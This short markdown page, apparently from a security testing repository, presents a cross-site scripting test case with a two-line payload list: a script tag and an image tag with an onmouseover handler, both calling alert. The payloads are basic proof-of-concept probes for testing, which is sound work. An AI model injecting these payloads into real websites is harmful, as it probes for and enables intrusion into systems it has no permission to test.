 # Cross-Site Scripting Test Case

### Cross-Site Scripting (XSS) Payload list

```
<script>alert(1);</script>
<IMG onmouseover="alert('xxs')">
```